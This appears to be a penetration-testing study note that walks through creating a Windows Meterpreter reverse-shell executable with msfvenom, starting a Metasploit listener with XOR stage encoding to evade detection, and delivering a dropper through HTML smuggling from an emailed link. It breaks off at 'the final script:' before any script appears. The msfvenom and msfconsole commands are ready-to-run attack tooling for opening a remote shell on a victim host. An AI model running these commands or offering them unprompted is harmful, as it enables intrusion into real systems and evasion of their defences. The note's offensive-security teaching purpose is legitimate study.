 Create a stage payload. 

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.1.123 LPORT=443 -f exe -o staged_shell.exe
```

Start a Metasploit listener.

```bash
msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST eth1;set LPORT 443;set EnableStageEncoding true;set StageEncoder x64/xor;set ExitOnSession false;exploit -jz"
```

*This command configures Metasploit to listen on the network interface `eth1` on port `443` for incoming Meterpreter sessions from a compromised 64-bit Windows system. The session attempts to evade detection by encoding its stages with XOR, allowing the handler to manage multiple sessions simultaneously without immediate interaction. This setup is particularly useful in penetration testing scenarios where maintaining stealth and managing multiple targets is required.*

![[Pasted image 20240529214156.png]]

## 3.1.3 HTML Smuggling

HTML Smuggling is a technique used to deliver payloads by encoding and embedding them directly within an HTML file. This method is commonly used in bypassing network-based content filters and security mechanisms.

In the previous sections, we created a malicious executable and tested it by manually downloading and running it on a “victim’s” machine. This works well as an example, but attackers will often use more discreet delivery methods. For example, an attacker may embed a link in an email. When the victim reads the email and visits the webpage, JavaScript code will use HTML Smuggling to automatically save the dropper file. 

#### Updated HTML Smuggling Script Enhancements

1. **Use modern JavaScript syntax (ES6+) for better readability and performance**:
    - Utilize `let` or `const` instead of `var`.
    - Use arrow functions where applicable.

2. **Enhance the functionality by incorporating error handling**:
    - Check if Blob and URL are supported in the browser.
    - Handle potential errors in base64 decoding.

3. **Improve the security and reliability of the blob creation process**:
    - Specify a more accurate MIME type if known.
    - Add a `rel='noreferrer noopener'` attribute to the link for security.

4. **Automatically remove the anchor element after the download starts**:
    - This cleans up the DOM and avoids potential memory leaks.

5. **Optimize memory usage**:
    - Revoke the Blob URL immediately after its use to free up memory.

the final script:
